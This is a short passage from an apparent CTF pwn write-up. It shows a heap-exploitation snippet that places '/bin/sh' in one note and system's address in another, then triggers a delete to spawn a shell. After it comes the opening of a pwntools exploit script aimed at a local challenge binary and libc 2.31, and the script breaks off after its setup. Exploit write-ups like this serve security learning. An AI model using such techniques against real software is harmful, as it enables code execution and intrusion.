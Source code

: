 ```bash
add(1,0xf8,'/bin/sh\x00')
add(9,0xf8,p64(system))

sla('>> ',str(2))
sla('which note do you want delete?\n',str(1))
```

[![](assets/1701606615-240ace20a462468d5c9ee56c05563e0c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231115213121-440d4648-83bb-1.png)

### exp

```bash
import os
import sys
import time
from pwn import *
from ctypes import *

context.os = 'linux'
context.log_level = "debug"

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')
elf = ELF('./pwn')
libc=ELF('./libc-2.31.so')

add_idx = 1
delete_idx = 2
show_idx = 3
```